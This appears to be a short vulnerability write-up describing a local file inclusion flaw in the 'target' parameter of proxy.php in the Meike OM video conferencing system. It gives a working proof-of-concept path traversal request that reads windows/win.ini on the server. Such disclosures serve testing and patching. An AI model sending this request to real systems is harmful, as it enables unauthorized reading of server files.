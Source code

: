 # Meike OM video conferencing system proxy.php file contains vulnerabilities

## Vulnerability Description

The proxy.php file target parameter of Meike OM video conferencing system has a local file containing vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Meike OM video conferencing system</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630909738237-5162ec96-62e1-4c6b-85ed-f68afa1ffb59.png)

Verify POC

```python
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630910015996-7abd7e35-7bb3-4fdc-b0b9-e203546a0de2.png)